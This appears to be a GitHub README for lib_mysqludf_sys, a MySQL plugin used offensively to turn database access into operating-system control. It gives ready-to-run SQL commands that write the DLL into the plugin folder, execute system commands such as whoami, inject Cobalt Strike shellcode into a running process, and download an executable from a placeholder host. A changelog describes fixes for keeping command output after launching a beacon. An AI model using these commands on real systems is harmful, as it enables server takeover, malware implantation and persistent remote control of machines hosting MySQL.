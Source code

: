 # lib_mysqludf_sys
lib_mysqludf_sys is a udf plugin of MySQL.

## Into Dumpfile

1.```python3 udf_Bin2Hex.py 1 Release\lib_mysqludf_sys_x64.dll "C:\\Program Files\\MySQL\\MySQL Server 5.5\\lib\\plugin\\lib_mysqludf_sys_x64.dll" > lib_mysqludf_sys_x64.sql```

2.exec .sql file

![](https://cdn.jsdelivr.net/gh/yanghaoi/lib_mysqludf_sys/imgaes/exec_sql.png) 

3.dumpfile lib_mysqludf_sys_x64.dll into lib/plugin

![](https://cdn.jsdelivr.net/gh/yanghaoi/lib_mysqludf_sys/imgaes/dumpfile.png) 

## Sys_exec

1.``` create function sys_exec returns string soname "lib_mysqludf_sys_x64.dll"; 
select sys_exec("chcp 65001 & ipconfig");drop function sys_exec; ```

2.``` create function sys_exec returns string soname "lib_mysqludf_sys_x64.dll"; 
select sys_exec("whoami");drop function sys_exec; ```

![](https://cdn.jsdelivr.net/gh/yanghaoi/lib_mysqludf_sys/imgaes/sys_exec.png) 


## Inject

1.Generate Stage/Stageless RAW file for Cobalt Strike


2.Dumpfile in MySQL machine


3.Inject shellcode

```create function inject returns string soname "lib_mysqludf_sys_x64.dll"; select inject(hex(load_file("C:\\raw.bin")),"AppVNice.exe");drop function inject;```

![](https://cdn.jsdelivr.net/gh/yanghaoi/lib_mysqludf_sys/imgaes/Inject_file.png) 

4.GIF 

![](https://cdn.jsdelivr.net/gh/yanghaoi/lib_mysqludf_sys/imgaes/injectshellcode.gif) 

## Download

```create function download returns string soname "lib_mysqludf_sys_x64.dll"; select download("http://xxxx/xxx.exe","C:\\11111.exe");drop function download;```



# Update

## 20220330
1.使用CreateFile+CreateProcess获取子进程命令执行返回;  
  
2.使用unlocker库解除文件占用(该bug曾导致执行持久程序时由于句柄占用无法获得下次命令执行输出，如执行beacon.exe后，再执行whoami将没有回显输出);  

3.中文乱码时可以切换数据库链接编码为GBK(chcp = 936).   



